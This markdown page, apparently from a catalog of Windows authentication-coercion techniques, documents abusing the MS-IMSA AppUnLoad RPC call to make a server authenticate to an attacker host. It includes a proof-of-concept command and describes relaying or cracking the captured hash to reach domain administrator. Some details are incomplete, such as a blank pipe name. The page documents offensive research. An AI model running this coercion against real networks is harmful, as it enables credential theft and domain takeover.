 # MS-IMSA - Remote call to AppUnLoad (opnum 5)

## Summary

+ **Protocol**: [[MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457)

+ **Protocol UUID**: 70b51430-b6ca-11d0-b9b9-00a0c922e750

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`AppUnLoad`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/70e38362-6e16-47a9-88bf-9e00e9bc4d09)

+ **Function operation number**: `5`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-IMSA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) protocol (with uuid `70b51430-b6ca-11d0-b9b9-00a0c922e750` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-IMSA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) and allows to call RPC functions of this protocol. We will then call the remote [`AppUnLoad`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/70e38362-6e16-47a9-88bf-9e00e9bc4d09) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
AppUnLoad('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT AppUnLoad(
   [in, unique, string] LPCWSTR szMDPath,
   [in] BOOL fRecursive
 );
```

## References

+ Documentation of protocol [MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457

+ Documentation of function `AppUnLoad`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/70e38362-6e16-47a9-88bf-9e00e9bc4d09